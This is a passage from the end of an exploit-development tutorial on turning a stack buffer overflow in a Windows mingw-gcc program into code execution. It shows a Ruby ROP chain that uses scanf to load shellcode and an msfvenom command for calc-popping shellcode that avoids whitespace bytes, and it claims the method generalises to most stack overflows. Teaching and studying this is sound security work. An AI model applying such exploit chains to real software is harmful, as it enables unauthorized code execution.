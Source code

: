 ```ruby
part2 += [ 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set r8 = 0
part2 += [ 0x004019cf, 0x401000, 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set rax = 0x401000; set r8 = 0x401000
part2 += [ 0x00402a1d ] + [ 0 ] * (0x28 / 8) # set rdx = 0x401000
part2 += [ 0x00402bc0, 0x404000, jmp_scanf, 0x00401000 ] # set rcx = address of "%s"; scanf(rcx="%s",rdx=0x401000); return to 0x401000
```
### <span id='764f11b4fe208f39ad6e2c9506d74e81'>Part3 - Final shellcode</span>

Great! now, we can run any shellcode we want, the only constraint is that it must not contain whitespace characters (because scanf will stop reading input if it encounters such characters).

Let's just generate a shellcode that pops the Windows calculator with msfvenom (part of Metasploit Framework), ``-b`` stands for bad chars, an encoder will be used to avoid these whitespace characters.


```shell
msfvenom -p windows/x64/exec CMD=calc.exe -f ruby -b "\x09\x0a\x0b\x0c\x0d\x20"
```

### <span id='b58f0e8ffb4d58f703a8c690da538bc7'>Putting it all together</span>

The full exploit script is available [here](/files/when_exploit_mitigations_are_disabled_on_modern_systems/exploit.rb).

[![Pop Calculator](https://res.cloudinary.com/dik00g2mh/image/upload/v1558110452/when_exploit_mitigations_are_disabled_on_modern_systems/pop_calc_inbcqn.gif)](https://res.cloudinary.com/dik00g2mh/image/upload/v1558110452/when_exploit_mitigations_are_disabled_on_modern_systems/pop_calc_inbcqn.gif)


# <span id='6f8b794f3246b0c1e1780bb4d4d5dc53'>Conclusion</span>

In the exploit, we have mostly used gadgets that should be present in every executable compiled with ``mingw-gcc``, the only gadgets specific to this executable are the ones reading input (using ``scanf`` function), while programs differ in the way they read input, almost any stack buffer overflow can be turned into arbitary code execution using an approach similar to the one explained in this article.
